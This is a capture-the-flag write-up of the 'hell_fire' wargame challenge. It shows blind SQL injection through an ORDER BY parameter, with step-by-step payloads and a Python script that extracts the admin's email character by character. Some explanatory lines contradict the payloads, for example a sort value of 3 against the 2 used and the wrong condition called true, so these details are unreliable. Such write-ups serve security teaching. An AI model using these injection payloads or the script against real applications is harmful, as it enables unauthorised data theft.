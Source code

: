 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 23
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/50a38bf9-d127-4ab6-ad25-321eb0130c99)

We are provided with the SQL query:

```sql
SELECT id,email,score FROM prob_hell_fire WHERE 1 ORDER BY {$_GET[order]}
```

This challenge returns the output in the form of a table.

If we provide the following URI parameter:

```
?order=id
```

The resultant query becomes:

```sql
SELECT id,email,score FROM prob_hell_fire WHERE 1 ORDER BY id
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/a1e61aae-d070-4cea-b385-c1e6cd9195fb)

There are two users: `admin` and `rubiya`.

We can solve this challenge using two different methods:
1. Assigning sort value
2. Sorting by different columns

## Blind SQL Injection - (Assigning different sort value)

In this method, we will assign a sort value to the result that we want.

### Retrieving the email length

If we provide the following URI parameter:

```
?order=if(id='admin' AND length(email)=1, 1, 2)
```

The resultant query becomes:

```sql
SELECT id,email,score FROM prob_hell_fire WHERE 1 ORDER BY if(id='admin' AND length(email)=num, 1, 2)
```

Rows where `id='admin'` and `length(email)=1` will be given a sort value of 1 and will appear first. All other rows will be given a sort value of 3 and will appear afterwards.

![3](https://github.com/Kunull/Write-ups/assets/110326359/69eee14a-1f35-4577-a4bf-794968d7b3c0)

Since the `admin` user is not sorted first, it means that `id='admin' AND length(email)=1` did not result in `True`. This tells us that the email length is greater than 1.

We can move onto greater values:

```
?order=if(id='admin' AND length(email)=28, 1, 2)
```

The resultant query becomes:

```sql
SELECT id,email,score FROM prob_hell_fire WHERE 1 ORDER BY if(id='admin' AND length(email)=28, 1, 2)
```

![4](https://github.com/Kunull/Write-ups/assets/110326359/3fb5f2f3-0632-4a05-9710-787bed3e5706)

Since the `admin` user is sorted first, it means that `id='admin' AND length(email)=1` resulted in `True`. This tells us that the email length is 28.
### Leaking the password

If we provide the following URI parameter:

```
?order=if(id='admin' AND substr(email, 1, 1)='0', 1, 2)
```

The resultant query becomes:

```sql
SELECT id,email,score FROM prob_hell_fire WHERE 1 ORDER BY if(id='admin' AND substr(email, 1, 1)='0', 1, 2)
```

Rows where `id='admin'` and `length(email)=1` will be given a sort value of 1 and will appear first. All other rows will be given a sort value of 3 and will appear afterwards.

![6](https://github.com/Kunull/Write-ups/assets/110326359/2c496b75-0a47-4745-8587-13851ba99c00)

Since the `admin` user is not sorted first, it means that `id='admin' AND substr(email, 1, 1)='0'` did not result in `True`. This tells us that the first character of the email is not `0`.

We can move onto other characters:

```
?order=if(id='admin' AND substr(email, 1, 1)='a', 1, 2)
```

The resultant query becomes:

```sql
SELECT id,email,score FROM prob_hell_fire WHERE 1 ORDER BY if(id='admin' AND substr(email, 1, 1)='a', 1, 2)
```

![[7 74.png]]

Since the `admin` user is first, it means that `id='admin' AND substr(email, 1, 1)='0'` resulted in `True`. This tells us that the first character of the email is `a`.

We can leak out all 28 character this way.

```
admin_secure_email@emai1.com
```
### Script

We can automate this process using a script. Since `_` and `.` are filtered out, we will have to convert these characters into their ASCII representation using the `ord()` function.

```python title="hell_fire_script.py"
import requests
import urllib.parse
import string

cookies = {'PHPSESSID': 'fgpbvjdctvq3qasns4lba8a85p'}
url = "https://los.rubiya.kr/chall/hell_fire_309d5f471fbdd4722d221835380bb805.php"
password_length = 0

for x in range(0, 100):
  payload = f"if(id='admin' and length(email)={x}, 1, 2)"
  encoded_payload = urllib.parse.quote_plus(payload)
  full_url = f"{url}?order={encoded_payload}"
    
  response = requests.get(full_url, cookies=cookies)
    
  if "<table border=1><tr><th>id</th><th>email</th><th>score</th><tr><td>admin</td>" in response.text:
    password_length = x
    break

print()    
print(f"[!] Payload: ?order={payload}")
print(f"[!] Payload (URL encoded): ?order={encoded_payload}")
print(f"[!] Email length: {password_length}")

password = ""
searchspace = '_@.' +  string.digits + string.ascii_letters

print(searchspace)

for index in range(1, password_length + 1):
  for char in searchspace:
    payload = f"if(id='admin' AND ord(substr(email, {index}, 1))='{ord(char)}', 1, 2)"
    encoded_payload = urllib.parse.quote_plus(payload)
    full_url = f"{url}?order={encoded_payload}"

    response = requests.get(full_url, cookies=cookies)

    if "<table border=1><tr><th>id</th><th>email</th><th>score</th><tr><td>admin</td>" in response.text:
      password += char
      print()
      print(f"[+] Payload: ?order={payload}")
      print(f"[+] Payload (URL encoded): ?order={encoded_payload}")
      print(f"[+] Character at index {index}: {char}")
      break

print()
print(f"[!] Extracted email: {password}")
print(f"[!] Final payload: ?email={password}")
```


```
admin%5Fsecure%5Femail@emai1.com
```
